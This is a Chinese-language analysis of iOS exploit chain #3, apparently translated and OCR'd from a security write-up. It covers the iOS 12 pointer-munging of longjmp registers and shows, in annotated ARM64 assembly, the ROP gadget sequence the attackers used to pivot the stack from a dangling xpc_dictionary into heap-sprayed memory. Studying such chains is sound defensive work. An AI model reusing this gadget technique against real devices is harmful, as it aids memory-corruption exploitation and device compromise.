 我们在iOS 11中查看了用于iOS漏洞利用链#3沙箱逃逸的longjmp。iOS 12中A11及以下版本的添加是从线程本地存储区读取键值，并用于对LR、SP和FP寄存器进行异或。

前三个指令是来自libsyscall的_OS_PTR_MUNGE_TOKEN宏：

```
#define _OS_PTR_MUNGE_TOKEN(_reg, _token) 
mrs _reg, TPIDRRO_EL0 %% 
and _reg, _reg, #~0x7 %% 
ldr _token, [ _reg,  #_OS_TSD_OFFSET(__TSD_PTR_MUNGE) ]
```

这是从TPIDRRO_EL0系统寄存器（只读软件线程ID寄存器）读取，XNU指向用户控件线程本地存储区域。键值通过main的特定apple[]参数传递给exec上的新进程，在exec期间生成：

```
/*
 * Supply libpthread &amp; libplatform with a random value to use for pointer
 * obfuscation.
 */
error = exec_add_entropy_key(imgp, PTR_MUNGE_KEY, PTR_MUNGE_VALUES, FALSE);
```

从根本上来说，在iOS漏洞利用链#3中使用的longjmp只是一种技术，对于漏洞利用链来说并不是什么基础。longjmp只是一种非常方便的方式来转动栈，并获得完整的寄存器控制。我们来看看攻击者是如何在没有使用longjmp的情况下转动栈的：

gadget_0将从虚假的Objective-C选择器缓存对象中读取。 X0将指向悬挂的xpc_dictionary对象，该对象被填充为0x118080000：

```
gadget_0:
LDR  X0, [X0,#0x18] ; X0 := (*(dangling_ptr+0x18)) (= 0x118080000)
LDR  X1, [X0,#0x40] ; X1 := (*(0x118080040)) (= gadget_1_addr)
BR   X1           ; jump to gadget_1
```

gadget_0为X0指向堆喷射对象，并分支到gadget_1：

```
gadget_1:
LDR  X0, [X0]       ; X0 := (*(0x118080000)) (= 0x118080040)
LDR  X4, [X0,#0x10] ; X4 = *(0x118080050) (= gadget_2_addr)
BR   X4           ; jump to gadget_2
```

gadget_1为X0获取一个新的受控值，并跳转到gadget_2：

```
gadget_2:
LDP  X8, X1, [X0,#0x20] ; X8 := *(0x118080060) (=0x1180900c0)
                        ; X1 := *(0x118080068) (=gadget_4_addr)
LDP  X2, X0, [X8,#0x20] ; X2 := *(0x1180900e0) (=gadget_3_addr)
                        ; X0 := *(0x1180900e8) (=0x118080070)
BR   X2               ; jump to gadget_3
```

gadget_2控制X0和X8并跳转到gadget_3：

```
gadget_3:
STP  X8, X1, [SP]        ; *(SP) = 0x1180900c0
                         ; *(SP+8) = gadget_4_addr
LDR  X8, [X0]            ; X8 := *(0x118080070) (=0x118080020)
LDR  X8, [X8,#0x60]      ; X8 := *(0x118080080) (=gadget_4_addr+4)
MOV  X1, SP              ; X1 := real stack
BLR  X8 ; jump to gadget 4+4
```
